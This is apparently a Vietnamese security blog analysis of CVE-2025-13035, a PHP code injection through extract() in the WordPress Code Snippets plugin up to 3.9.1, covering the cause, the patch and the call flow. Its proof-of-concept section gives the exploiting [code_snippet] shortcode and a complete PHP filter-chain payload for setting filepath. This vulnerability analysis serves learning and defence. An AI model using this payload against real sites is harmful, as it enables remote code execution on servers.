




<!--more-->

## CVE & Basic Info
Plugin Code Snippets cho WordPress tồn tại lỗ hổng PHP Code Injection trong tất cả các phiên bản cho đến, và bao gồm, 3.9.1. Nguyên nhân là do plugin sử dụng `extract()` trên shortcode attributes do attacker kiểm soát bên trong method `evaluate_shortcode_from_flat_file`, có thể được dùng để ghi đè biến `$filepath` và sau đó truyền vào require_once. Điều này cho phép attacker đã xác thực, với quyền Contributor trở lên, thực thi tùy ý PHP code trên server thông qua shortcode `[code_snippet]` bằng cách sử dụng PHP filter chains nếu họ có thể lừa administrator bật tùy chọn "Enable file-based execution" và tạo ít nhất một Content snippet đang hoạt động.

* **CVE ID**: [CVE-2025-13035](https://www.cve.org/CVERecord?id=CVE-2025-13035)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 3.9.1
* **Patched Versions**: 3.9.2
* **CVSS severity**: Medium (8.5)
* **Required Privilege**: Contributor
* **Product**: [WordPress Code Snippets Plugin](https://wordpress.org/plugins/code-snippets/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Code Snippets**:  
    * `3.9.1` – **vulnerable**  
    * `3.9.2` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Cause
**Trong phiên bản lỗi (v3.9.1):**

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[11,12]}
private function evaluate_shortcode_from_flat_file( $filepath, array $atts ): string {
    ob_start();

    ( function( $atts ) use ( $filepath ) {
        /**
            * Avoiding extract is typically recommended, however in this situation we want to make it easy for snippet
            * authors to use custom attributes.
            *
            * @phpcs:disable WordPress.PHP.DontExtract.extract_extract
            */
        extract( $atts );
        require_once $filepath;
    } )( $atts );

    return ob_get_clean();
}
```

Trong hàm `evaluate_shortcode_from_flat_file`, một **anonymous function** được định nghĩa và gọi ngay lập tức (IIFE). Hàm này nhận tham số `$atts` (mảng các attribute của shortcode) và sử dụng thêm biến `$filepath` từ bên ngoài thông qua `use ($filepath)`.

Lệnh `extract($atts)` sẽ trích xuất các phần tử trong mảng `$atts` thành biến riêng lẻ trong symbol table của scope hiện tại.

Ví dụ:

```php
$atts = ['color' => 'blue', 'size' => 'large'];
extract($atts);
// Bây giờ có $color = 'blue', $size = 'large'
```

Về mặt nội bộ, PHP quản lý biến thông qua **zval container**:

> [!QUOTE]
> A PHP variable is stored in a container called a "zval". A zval container contains, besides the variable's type and value, two additional bits of information. The first is called "is_ref" and is a boolean value indicating whether or not the variable is part of a "reference set". With this bit, PHP's engine knows how to differentiate between normal variables and references. Since PHP allows user-land references, as created by the & operator, a zval container also has an internal reference counting mechanism to optimize memory usage. This second piece of additional information, called "refcount", contains how many variable names (also called symbols) point to this one zval container. All symbols are stored in a symbol table, of which there is one per scope. There is a scope for the main script (i.e., the one requested through the browser), as well as one for every function or method.

Khi `extract()` chạy:
* Mỗi phần tử trong `$atts` được ánh xạ thành một biến mới.
* Các biến này trỏ đến cùng một **zval** với giá trị trong mảng.
* Điều này làm tăng **refcount** (số lượng tên biến cùng tham chiếu đến một giá trị).
* Khi scope kết thúc, symbol table bị hủy, refcount giảm xuống và bộ nhớ được giải phóng.

> [!BUG]
> **Xung đột tên biến:**
> Nếu `$atts` chứa key trùng với biến đã tồn tại trong scope (ví dụ `"filepath"`), thì biến đó sẽ bị ghi đè.
> ```php
> $atts = ['filepath' => '/tmp/malicious.php'];
> extract($atts);
> require_once $filepath; // giờ sẽ nạp file từ $atts, không phải file gốc
> ```
> Đây chính là nguyên nhân gây ra lỗ hổng: attacker có thể chèn giá trị `"filepath"` để điều khiển file được `require_once`.

**Bản vá (v3.9.2):** 



Trong bản vá, hàm `extract()` đã được bổ sung option `EXTR_SKIP`.
* Tùy chọn này đảm bảo rằng nếu `$atts` có key trùng với biến đã tồn tại, biến gốc sẽ không bị ghi đè.
* Nhờ đó, `$filepath` được truyền từ bên ngoài vẫn giữ nguyên giá trị an toàn, loại bỏ nguy cơ bị thay thế bởi dữ liệu từ `$atts`.

## Analysis
Plugin đã đăng ký một shortcode:

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[2]}
public const CONTENT_SHORTCODE = 'code_snippet';
add_shortcode( self::CONTENT_SHORTCODE, [ $this, 'render_content_shortcode' ] );
```

Khi shortcode này xuất hiện trong nội dung của post/page, WordPress sẽ gọi callback `render_content_shortcode`:

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[3,24,31]}
public function render_content_shortcode( array $atts ): string {
    $atts = $this->convert_boolean_attribute_flags( $atts, [ 'network', 'php', 'format', 'shortcodes', 'debug' ] );
    $original_atts = $atts;

    $atts = shortcode_atts(
        [
            'id'         => 0,
            'snippet_id' => 0,
            'network'    => false,
            'php'        => false,
            'format'     => false,
            'shortcodes' => false,
            'debug'      => false,
        ],
        $atts,
        self::CONTENT_SHORTCODE
    );

    $id = 0 !== intval( $atts['snippet_id'] ) ? intval( $atts['snippet_id'] ) : intval( $atts['id'] );
    if ( ! $id ) {
        return $this->invalid_id_warning( $id );
    }

    $snippet = $this->get_snippet( $id, (bool) $atts['network'], 'html' );

    // Render the source code if this is not a shortcode snippet.
    if ( 'content' !== $snippet->scope ) {
        return $snippet->id ? $this->render_snippet_source( $snippet ) : $this->invalid_id_warning( $snippet->id );
    }
    ...
    $content = $this->evaluate_shortcode_content( $snippet, $original_atts );
    ...
}
```

Hàm tạo ra một đối tượng **Snippet** bằng cách gọi phương thức `get_snippet`. Phương thức nhận vào ba tham số: ID của snippet, giá trị boolean cho biết có sử dụng chế độ **network** hay không, và định dạng mong muốn (**html**). Kết quả trả về là một đối tượng **Snippet** chứa toàn bộ thông tin cần thiết để tiếp tục xử lý.

Tiếp theo, hàm kiểm tra phạm vi (**scope**) của snippet. Nếu snippet **không** thuộc loại **content** (`html`)

plugin sẽ không xử lý nội dung mà thay vào đó trả về phần mã nguồn của snippet.

Hàm `evaluate_shortcode_content()` được gọi để xử lý nội dung shortcode:

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[15]}
protected function evaluate_shortcode_content( Snippet $snippet, array $atts ): string {
    if ( empty( $atts['php'] ) ) {
        return $snippet->code;
    }

    if ( ! Snippet_Files::is_active() ) {
        return $this->evaluate_shortcode_from_db( $snippet, $atts );
    }

    $network = DB::validate_network_param( $snippet->network );
    $table_name = Snippet_Files::get_hashed_table_name( code_snippets()->db->get_table_name( $network ) );
    $filepath = $this->build_snippet_flat_file_path( $table_name, $snippet );

    return file_exists( $filepath )
        ? $this->evaluate_shortcode_from_flat_file( $filepath, $atts )
        : $this->evaluate_shortcode_from_db( $snippet, $atts );
}
```

Hàm kiểm tra xem thuộc tính `php` có tồn tại hay không. Nếu không, trả về mã nguồn gốc của snippet mà không thực thi.
Nếu thuộc tính `php` tồn tại nhưng file lưu trữ chưa tồn tại, hàm chuyển sang phương thức xử lý trực tiếp từ cơ sở dữ liệu.

File lưu trữ được khai báo:

```php {title="class-snippet-files.php v3.9.1" data-open=true hl_lines=[]}
private const ENABLED_FLAG_FILE = 'flat-files-enabled.flag';
```

Để hàm không return ở đây, ta phải bật option `Enable file-based execution` trong admin panel:


Khi đó file lưu trữ được tạo nằm trong `wp-content/code-snippets`



Khi file đã tồn tại, hàm tiến hành xác định thông tin mạng của snippet, lấy tên bảng đã được băm (hash) và xây dựng đường dẫn đến file chứa nội dung của snippet gán vào `$filepath`.

Nếu `$filepath` tồn tại hàm gọi đến `evaluate_shortcode_from_flat_file( $filepath, $atts )` nơi xảy ra lỗ hổng.

> [!INFO]
> Lổ hổng được công bố với đặc quyền Contributor vì đây là đặc quyền thấp nhất để chèn shortcode vào post

## Flow


graph TD

A["Contributor inserts [code_snippet] shortcode"] --> B["WordPress calls render_content_shortcode()"]
B --> C["convert_boolean_attribute_flags()"]
C --> D["shortcode_atts(): merge defaults into $atts"]
D --> E["Determine snippet_id → if invalid → invalid_id_warning()"]

E --> F["get_snippet(id, network, 'html') → create Snippet object"]
F --> G{"snippet.scope == 'content'?"}

G -- No --> H["render_snippet_source()"]
H --> Z["End"]

G -- Yes --> I["evaluate_shortcode_content(snippet, original_atts)"]

I --> J{"original_atts['php'] enabled?"}
J -- No --> K["Return snippet->code"] --> Z

J -- Yes --> L{"Snippet_Files::is_active()?"}

L -- No --> M["evaluate_shortcode_from_db()"] --> Z

L -- Yes --> N["Build file path: build_snippet_flat_file_path()"]
N --> O{"Does file exist?"}

O -- No --> M

O -- Yes --> P["evaluate_shortcode_from_flat_file(filepath, atts)"]

P --> Q["extract(atts) inside IIFE"]
Q --> R{"Do atts contain variable-name collisions (e.g., 'filepath')?"}

R -- No --> S["require_once filepath (safe)"] --> Z

R -- Yes --> T["Internal variable overwritten → filepath replaced"]
T --> U["require_once attacker-controlled file"]
U --> V["RCE achieved"]
V --> Z


## Proof of Concept (PoC)
1. Administrator bật option `Enable file-based execution`
2. Contributor chèn shortcode sau vào post với `snippet_id` trỏ đến Snippet có Snippet Type là HTML(`content`)

```
[code_snippet snippet_id=4 php=1 filepath=/path/to/file]
```

Ở đây attacker có toàn quyền điều khiển giá trị của biến `filepath`. Điều đó cho phép sử dụng các PHP stream wrappers (chẳng hạn filter chain) để dẫn tới thực thi mã, vì:

* `require_once` chỉ kiểm tra xem chuỗi nhận vào có phải là một đường dẫn hợp lệ theo PHP hay không; nó sẽ cố gắng nạp **bất kỳ** stream nào được cung cấp mà không giới hạn ở file vật lý.
* PHP filter chain cho phép biến đổi nội dung stream và khiến PHP diễn giải kết quả cuối cùng như mã PHP hợp lệ. Khi nội dung sau filter được đưa vào `require_once`, PHP sẽ thực thi nó.
* Nhiều wrapper như `http://` hoặc `ftp://` bị hạn chế bởi cấu hình mặc định `allow_url_include`, nhưng các wrapper nội bộ như `php://filter` không bị ảnh hưởng bởi giới hạn này.

> [!INFO]
> **Filter chain** trong PHP là cơ chế cho phép bạn nối nhiều bộ lọc (stream filters) lại với nhau để xử lý dữ liệu khi đọc hoặc ghi từ một file/stream. Nó hoạt động dựa trên wrapper đặc biệt: `php://filter`.
> 
> Kỹ thuật này được sử dụng trong các cuộc thi CTF, dựa trên nguyên lý sau:
> * `php://filter`: cho phép gắn filter vào một stream (ở đây là `php://temp`).
> * Chuỗi filter: các filter được nối bằng ký tự `|`. Dữ liệu đi qua từng filter theo thứ tự từ trái sang phải.
> * Các filter chính trong chuỗi:
>   * `convert.iconv.<from>`.`<to>`: chuyển đổi encoding từ bộ mã này sang bộ mã khác.
>   * `convert.base64-encode` / `convert.base64-decode`: mã hóa hoặc giải mã base64.
>
> Khi kết hợp hàng chục filter như vậy, dữ liệu sẽ bị biến đổi nhiều lần: encode → đổi encoding → decode → encode → … cho đến cuối cùng.
> Tham khảo: [https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it)

Chạy [script](https://github.com/synacktiv/php_filter_chain_generator/tree/main) sau để tạo PHP Filter Chain:

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Gán giá trị vừa tạo được cho `filepath`



## Conclusion

Lỗ hổng trong plugin Code Snippets xuất phát từ việc sử dụng `extract()` mà không có cơ chế bảo vệ, cho phép ghi đè biến nội bộ và dẫn đến việc thực thi file tuỳ ý thông qua `require_once`. Khi kết hợp với tùy chọn “Enable file-based execution” và shortcode `[code_snippet]`, một người dùng có quyền Contributor có thể kích hoạt thực thi mã PHP không mong muốn. Bản vá đã khắc phục vấn đề bằng cách sử dụng `EXTR_SKIP`, đảm bảo các biến nhạy cảm không bị ghi đè trong quá trình xử lý shortcode.

## Key Takeaways

* Việc sử dụng `extract()` mà không kiểm soát biến là rủi ro nghiêm trọng, đặc biệt khi dữ liệu đầu vào đến từ người dùng.
* PHP stream wrappers, bao gồm filter chains, có thể trở thành công cụ mạnh mẽ để chuyển đổi dữ liệu thành mã thực thi.
* Một tùy chọn cấu hình tưởng chừng vô hại như “Enable file-based execution” có thể mở rộng bề mặt tấn công đáng kể.
* Các shortcode WordPress cần được xử lý cẩn trọng vì chúng được Contributor sử dụng trong nội dung bài viết.
* Việc bổ sung `EXTR_SKIP` trong bản vá cho thấy cách đơn giản nhưng hiệu quả để giảm thiểu nguy cơ ghi đè biến nhạy cảm.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Code Snippets Plugin <= 3.9.1 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/code-snippets/vulnerability/wordpress-code-snippets-plugin-3-9-1-authenticated-contributor-php-code-injection-via-extract-and-php-filter-chains-vulnerability)